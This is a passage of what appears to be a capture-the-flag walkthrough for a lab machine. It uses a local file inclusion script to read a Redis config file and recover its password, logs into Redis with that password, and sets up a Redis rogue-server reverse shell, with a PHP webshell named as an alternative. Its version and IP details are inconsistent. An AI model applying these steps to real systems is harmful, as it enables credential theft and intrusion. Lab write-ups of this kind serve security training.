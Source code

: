 ```bash
❯ ./lfi.sh /etc/redis/redis.conf | grep "pass*"
# 2) No password is configured.
# If the master is password protected (using the "requirepass" configuration
# masterauth <master-password>
# resync is enough, just passing the portion of data the replica missed while
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.
requirepass Ready4Redis?
```
{: .nolineno }

Now, we can log in into **redis** service:

```bash
❯ redis-cli -h 192.168.190.166
192.168.190.166:6379> auth Ready4Redis?
OK
192.168.190.166:6379> 

```
{: .nolineno }

## Initial Access 

I found two methods to obtain inital access. One of them involves uploading a **php webshell** to the server and, using the previously mentioned LFI vulnerability, executing code. The second method is to abuse **Redis Rogue Server**, as we are dealing with an outdated version of Redis vulnerable to this type of attack.

### Method 1: Redis Rogue Server - shell as redis

The Redis version is below 5.0.5, we can use  [Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server) to gain a reverse shell. The version can be displayed by using **info** command:

```bash
192.168.166.166:6379> info
# Server
redis_version:5.0.14
```
{: .nolineno }

Originally, it was expected that initial access would be as **alice** instead of **redis**. For privilege escalation, having a shell as **alice** is necessary to leverage certain permissions on a path that the **redis** user does not possess. However, I found a way to pivot from **redis** to **alice** by abusing **WordPress** and **MySQL**, which will be explained later. For now,let's clone the following repository:

**Repo:** <https://github.com/n0b0dyCN/redis-rogue-server>

```bash
❯ git clone https://github.com/n0b0dyCN/redis-rogue-server
Cloning into 'redis-rogue-server'...
remote: Enumerating objects: 87, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 87 (delta 0), reused 1 (delta 0), pack-reused 83
Receiving objects: 100% (87/87), 245.56 KiB | 1.16 MiB/s, done.
Resolving deltas: 100% (19/19), done.
```
{: .nolineno }
